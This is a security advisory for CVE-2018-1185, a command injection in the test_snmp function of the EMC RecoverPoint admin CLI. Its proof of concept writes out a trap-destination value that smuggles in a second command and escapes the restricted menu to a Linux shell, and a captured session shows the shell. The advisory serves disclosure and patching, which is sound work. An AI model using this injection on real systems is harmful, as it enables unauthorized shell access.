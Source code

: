 ## EMC RecoverPoint Admin CLI Command Injection test_snmp

Version: RecoverPoint prior to 5.1.1 RecoverPoint for VMs prior to 5.0.1.3

Date: 2018-05-11

Vendor Advisory: http://seclists.org/fulldisclosure/2018/Feb/9

Exploit Author: Paul Taylor (@bao7uo) / Foregenix Ltd

Github: https://github.com/bao7uo

Tested on: RecoverPoint for VMs 4.3, RecoverPoint 4.4.SP1.P1

CVE: CVE-2018-1185

## 1. Description

An OS command injection vulnerability resulting in code execution as the built-in admin user. 

A crafted entry can result in the ability to escape from the restricted admin user's menu driven CLI to a full Linux operating system shell in the context of the admin user. The attack vector is the trap destination (hostname/IP) parameter of the test_snmp function.
 
## 2. Proof of Concept

```
RecoverPoint> test_snmp
Enter the trap destination (host name or IP)
 > /dev/null 2>&1 ; bash #
admin@RecoverPoint:/home/kos/cli$ exit
exit
Test completed successfully.
RecoverPoint> 
```

## 3. Solution:
    
Update to latest version of RecoverPoint
